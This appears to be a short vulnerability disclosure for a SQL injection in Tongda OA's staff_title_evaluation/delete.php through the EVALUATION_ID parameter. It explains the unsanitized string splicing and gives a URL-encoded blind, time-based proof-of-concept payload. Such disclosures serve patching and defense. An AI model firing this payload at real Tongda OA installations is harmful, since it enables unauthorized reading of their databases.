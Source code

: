 SQL injection vulnerability exists in tongda oa

version:v2017 version and versions below v11.10

Route: general/hr/manage/staff_title_evaluation/delete.php

There is an injected parameter: $EVALUATION_ID

The code here is very simple. When $EVALUATION_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![图片1](https://github.com/csbsong/bug_report/assets/127068468/c97376f6-ed3d-41d5-9002-5b61032f425f)

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![图片2](https://github.com/csbsong/bug_report/assets/127068468/1b0b6797-8982-41f2-b5ae-52a749a27342)
